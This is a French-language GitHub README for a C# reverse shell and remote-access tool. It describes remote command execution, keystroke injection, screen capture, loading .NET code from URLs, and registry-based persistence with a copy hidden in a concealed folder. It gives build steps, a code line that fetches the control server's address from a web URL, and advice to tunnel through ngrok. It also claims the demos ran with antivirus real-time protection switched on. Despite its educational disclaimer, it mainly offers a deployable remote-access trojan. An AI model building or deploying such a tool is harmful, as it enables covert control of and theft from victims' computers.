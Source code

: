 # README.MD
### Description du projet

Ce projet est une démonstration d'une reverse shell écrite en C#. Il s'agit d'un outil puissant pour la gestion à distance des systèmes, utilisé à des fins éducatives et de recherche.

####Points clés du code

1. Connexion réseau : Le code utilise la classe TcpClient pour établir une connexion réseau avec un serveur distant. L'adresse IP et le port du serveur sont récupérés à partir d'un serveur web distant.

2. Cryptographie : Pour assurer la sécurité des communications, le code utilise l'algorithme de hachage SHA256 et un chiffrement XOR ainsi que le chiffrement RSA Pour un chiffrement simple de bout en bout. Les clés sont régénérées à chaque itération pour augmenter la sécurité.

3. Gestion des commandes : Le code est capable de lire les commandes à partir du flux de sortie standard d'un processus et de les envoyer au serveur. Il peut également lire les commandes du serveur et les exécuter sur la machine locale.

4. Fonctionnalités supplémentaires : Le code comprend des fonctionnalités supplémentaires telles que l'envoi de frappes de clavier, l'affichage de boite de messages, l'exécution de commandes de manière asynchrone, la capture d'écran à distance et le chargement de librarie .NET à partir d'URL.

5. Persistante : Le code tente de rendre la reverse shell persistante en ajoutant une entrée au registre Windows pour exécuter le programme au démarrage de la session de l'utilisateur. Il copie également le fichier exécutable dans un répertoire caché.
####Utilisation
Pour télécharger .Net 7.0 en version portable, voir ici : https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.306-windows-x64-binaries
lien directe : https://download.visualstudio.microsoft.com/download/pr/3c443568-43b0-40b1-bb5c-3a6d8cd31876/e7d6c5b176b1c985a5f972dbf2c721b3/dotnet-sdk-7.0.306-win-x64.zip

#####compiler le client : 
Pour commencer, changer l'url à ligne 158 de client\Program.cs
```
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
ensuite compilez le client avec dotnet.exe
```
dotnet.exe publish client.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
client\bin\Debug\net7.0-windows\win-x64\publish
```
Puis publier le serveur : 
```
dotnet.exe publish server.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
server\bin\Debug\net7.0-windows\win-x64\publish
```
Pour se connecter au serveur depuis un autre reseau que le client, je vous conseille d'utiliser le service de tunneling ngrok et d'ajouter l'addresse IP et le port sur un serveur web avec un domaine fixe (par exemple sur un repl HTML, CSS, JS sur https://replit.com)
// L'addresse IP et le port doivent êtres séparré par deux points uniquement
ex : 
```
1.2.3.4:8080
```
###Démonstration
####Pour information, les vidéos ont été enregistrées sur la même machine avec la protection en temps réel activée [sans envoyer d'échantillons], mais c'est bien CLIENT.EXE qui effectue les actions.

#####- Reverse Shell Si vous ne le voyez pas : https://github.0xsql.repl.co/reverse_shell.gif
#####MessageBox et SendKeys
Si vous ne le voyez pas : https://github.0xsql.repl.co/send_keys_and_msgb.gif
Exemple de commande msgb>/Votre Message SKS>/Vos Clés

#####remote-desktop
Si vous ne le voyez pas : https://github.0xsql.repl.co/remote-desktop.gif
Pour démarrer le bureau à distance, exécutez server-remote-video.exe dans remote-video\server-remote-video\server\bin\Debug et exécutez la commande sur server.exe : remote-desktop>/:8081

#### Avertissement

Ce projet est publié à des fins éducatives et de recherche. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.
